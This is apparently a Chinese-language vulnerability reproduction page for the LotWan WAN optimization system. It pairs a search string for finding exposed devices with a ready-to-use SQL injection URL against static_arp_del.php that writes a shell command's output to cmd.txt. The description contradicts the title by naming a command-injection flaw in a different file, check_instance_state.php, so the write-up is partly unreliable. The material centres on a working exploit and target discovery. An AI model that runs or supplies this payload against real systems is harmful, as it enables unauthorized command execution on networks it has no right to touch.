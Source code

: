 



# 华夏创新 LotWan广域网优化系统 static_arp_del.php SQL注入漏洞

## 漏洞描述

华夏创新 LotWan广域网优化系统check_instance_state.php文件参数 ins存在命令拼接，导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>华夏创新 LotWan广域网优化系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="LotWan 广域网优化系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1635942598942-6671fa50-5052-43f6-ab40-bf2c8403bdf8.png)

存在漏洞的文件为 static_arp_del.php, 通过union注入写入文件

```php
/acc/bindipmac/static_arp_del.php?x=1&arpName=1' and 0 union select 1,'||id>cmd.txt||',3,4,5,6,7,8--
```

再访问 `/acc/bindipmac/cmd.txt`

![img](../../../.vuepress/public/img/1635944083151-f56d838d-54e4-4d28-a6ac-6e079e936cf3.png)

